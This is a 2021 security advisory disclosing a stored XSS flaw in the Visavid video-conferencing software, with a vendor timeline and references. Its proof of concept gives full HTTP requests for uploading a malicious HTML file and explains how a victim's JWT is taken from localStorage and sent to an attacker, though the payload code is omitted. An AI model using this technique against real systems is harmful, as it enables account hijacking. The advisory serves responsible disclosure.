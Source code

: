 ```yaml
---
layout: post
date:   2021-04-27
categories: [advisory]

title:  "Advisory - Visavid account hijack via stored XSS "
advisory:
  product: Visavid
  homepage: https://visavid.de/
  
  vulnerable_version: ["Gateway 1.10.3", "Verwaltung: 1.10.10"]
  fixed_version: ["Gateway 1.10.3", "Verwaltung: 1.10.14"]
  impact_text: HIGH
  impact_score: 8.0
  cvss: CVSS:3.1/AV:N/AC:L/PR:L/UI:R/S:U/C:H/I:H/A:H
  found: 2021-04-22
---
```


# Product description
Kommunizieren, präsentieren, fortbilden: Unsere flexible Videokonferenz-Software ist von der Entwicklung bis zum Support zu 100 % Made in Germany und bietet neben Datenschutz und einem hohen Sicherheits-Level auch individuelle Anpassungsmöglichkeiten für unterschiedliche Einsatzbereiche.

[Auctores - Visavid](https://auctores.de/software/produkte/)

# Vulnerability overview
The software `Visavid` allows an `room` admin to upload files for the room. These uploaded files can then be accessed without authentication. As the content type/data of the uploaded file is not restricted, a `HTML` file with included `JavaScript` code can be uploaded.  If the victim visits the URL the `JWT` can be accessed from the `localStorage` and sent back to the attacker, which allows full access to the account.

# Proof of concept
The endpoint `PUT /api/verwaltung/rooms/file/{ROOM-ID}` allows an user to upload files to a room. As the content type/data is not restricted a `HTML` file with malicious `JavaScript` code can be uploaded. The result to this requests contains the resource URL (`file.data.url`), which can be used to access the file without authentication. This URL can then be sent to a victim. If the victim opens the URL and is logged in the `JWT` can be stolen.

The request to upload a HTML file:
```http
PUT /api/verwaltung/rooms/file/6f735b70-27ee-41dc-a1df-778446f40fcc HTTP/1.1
Host: staging.visavid.de
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: application/hal+json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Authorization: Bearer XXX
Content-Type: multipart/form-data; boundary=---------------------------266190233231735721582577257025
Content-Length: 2567
Origin: https://staging.visavid.de
DNT: 1
Connection: close

-----------------------------266190233231735721582577257025
Content-Disposition: form-data; name="id"

6f735b70-27ee-41dc-a1df-778446f40fcc
-----------------------------266190233231735721582577257025
Content-Disposition: form-data; name="file_file"; filename="extract-jwt.html"
Content-Type: text/html

<!DOCTYPE html>
<html lang="en">
<meta charset="UTF-8">
<title>Visavid - Stored XSS</title>

........

</html>
-----------------------------266190233231735721582577257025
Content-Disposition: form-data; name="view_initial"

false
-----------------------------266190233231735721582577257025
Content-Disposition: form-data; name="room_id"

{"id":"{ROOM-ID}"}
-----------------------------266190233231735721582577257025--

```
The response contains the resource URL, which is available without login:
```json
{
    "file": {
        "data": {
            "id": "141f4e8fX178b54d7629XY7fa1",
            "url": "resources/466524208/141f4e8fX178b54d7629XY7fa1/ORG/extract-jwt.html",
            "name": "extract-jwt.html",
            "size": 1910,
            "alias": "default",
            "index": "visavid",
            "format": "ORG",
            "public": false,
            "imgWidth": 0,
            "mimeType": "text/html",
            "extension": "html",
            "imgHeight": 0,
            "timestamp": 1619090844873,
            "indexHashed": "466524208",
            "imgColorSpace": 0,
            "entityId": "6f735b70-27ee-41dc-a1df-778446f40fcc",
            "entityPath": "/rooms/file"
        },
        "url": "/api/verwaltung/rooms/file/6f735b70-27ee-41dc-a1df-778446f40fcc/blobs/3143036/{FORMAT}/extract-jwt.html"
    },
    "view_initial": false,
    "defaultvalue": "extract-jwt.html",
    "id": "6f735b70-27ee-41dc-a1df-778446f40fcc"
}
```

If the victim open the resource URL `https://staging.visavid.de/resources/466524208/141f4e8fX178b54d7629XY7fa1/ORG/extract-jwt.html` the `JavaScript` code is executed.

```http
GET /resources/466524208/141f4e8fX178b54d7629XY7fa1/ORG/extract-jwt.html HTTP/1.1
Host: staging.visavid.de
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache


```

To demonstrate  the impact a small `JWT` stealing PoC was created (full source in appendix).
If the victim is already logged in the current `JWT` is sent back to the attacker. 
![already logged in](/assets/visavid/210422-stored-xss-logged-in.png)

Otherwise the normal login prompt is shown and the stealing function is called every two second until the user is logged in and the token is sent back.
![not logged in](/assets/visavid/210422-stored-xss-login-page.png)  

After the user logged in:
![after login](/assets/visavid/210422-stored-xss-after-login.png)

# Timeline
* 2021-04-22: Sent report to vendor
* 2021-04-23: Vendor acknowledged vulnerability
* 2021-04-26: Vendor informed that the issue is fixed
* 2021-04-27: Public release of security advisory


# Reference
* [OWASP - JSON Web Token](https://cheatsheetseries.owasp.org/cheatsheets/JSON_Web_Token_for_Java_Cheat_Sheet.html#token-storage-on-client-side)
* [OWASP - Cross Site Scripting](https://owasp.org/www-community/attacks/xss/)
* [Medium - Whats the secure way to store JWT](https://medium.com/swlh/whats-the-secure-way-to-store-jwt-dd362f5b7914)


# Appendix
```html
{% include poc/visavid-extract-jwt.html %}
```
